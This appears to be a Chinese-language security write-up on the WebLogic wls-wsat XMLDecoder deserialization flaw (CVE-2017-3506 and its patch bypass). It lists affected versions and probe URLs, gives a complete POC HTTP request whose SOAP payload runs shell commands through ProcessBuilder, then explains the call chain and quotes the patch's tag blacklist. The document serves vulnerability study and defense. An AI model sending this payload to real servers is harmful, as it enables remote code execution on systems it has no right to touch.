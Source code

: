 # CVE-2017-3506&CVE-2017-12071 反序列化
影响版本
```
10.3.6.0
12.1.3.0
12.2.1.0
12.2.1.1
12.2.1.2
```
访问以下url,可访问即开启了相关漏洞组件
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```
## CVE-2017-3506
### POC
```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.:7001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml
Content-Length: 764

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
## 原理
其原因在于WLS-WebServices这个组件中使用了JDK自带的XMLDecoder来直接解析XML数据,触发了XMLDecoder反序列化漏洞.
### 调用链
首先在`weblogic/wsee/jaxws/workcontext/WorkContextServerTube.class.processRequest`方法中开始处理相关xml请求.
首先分切xml数据的haeader交给readHeaderOld方法.
![](1.png)
在readHeaderOld方法中,var4通过XMLStreamWriteFactory.create和var3的bridge()方法被填充为poc部分即
```xml
<java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
```
然后将这部分作为参数实例化了一个WorkContextXmlInputAdapter.
![](2.png)  
而在WorkContextXmlInputAdapter实例化中则直接调用了xmlDecoder来反序列化数据.触发xmlDecoder反序列化漏洞.
![](3.png)
### CVE-2017-12071
CVE-2017-12071为CVE-2017-3506补丁的绕过,CVE-2017-3506的补丁只是把object标签对象加了黑名单,而在xmldecoder中还有可替代的标签进行替换即可,而在CVE-2017-12071中则是将`object、new、method`关键字加入了黑名单,匹配到即抛出异常,对`void,array`标签若没有分别匹配匹配到`index`和`bytes`属性才抛出异常,即不能使用`object、new、method`标签,而`void`标签只能有index节点或者空节点,而`array`标签则只接受bytes类型的参数.
```java
public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {

            if(qName.equalsIgnoreCase("object")) {

               throw new IllegalStateException("Invalid element qName:object");

            } else if(qName.equalsIgnoreCase("new")) {

               throw new IllegalStateException("Invalid element qName:new");

            } else if(qName.equalsIgnoreCase("method")) {

               throw new IllegalStateException("Invalid element qName:method");

            } else {

               if(qName.equalsIgnoreCase("void")) {

                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {

                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {

                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {

                  String var9 = attributes.getValue("class");

                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {

                     throw new IllegalStateException("The value of class attribute is not valid for array element.");

                  }
```